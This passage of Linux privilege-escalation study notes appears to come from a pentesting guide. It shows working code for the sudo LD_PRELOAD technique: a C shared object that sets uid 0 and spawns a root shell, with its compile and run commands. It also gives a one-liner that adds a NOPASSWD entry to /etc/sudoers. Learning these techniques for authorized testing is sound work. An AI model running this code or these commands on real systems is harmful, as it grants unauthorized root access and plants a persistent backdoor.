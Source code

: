 Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. 

---------------------------------------------------------------

**Privilege Escalation: Sudo**

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage LD_PRELOAD:
LD_PRELOAD is a function that allows any program to use shared libraries.
This blog post will give you an idea about the capabilities of LD_PRELOAD.
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

The steps of this privilege escalation vector can be summarized as follows;

1.	Check for LD_PRELOAD (with the env_keep option)
2.	Write a simple C code compiled as a share object (.so extension) file
3.	Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


The C code will simply spawn a root shell and can be written as follows;
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}	
```

then save it as shared library
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

then run
```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

--------------------------------------------
To add user to sudoers do this, so you can run sudo su, and go to root

```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
```

--------------------------------------------------------------

**Privilege Escalation: SUID**
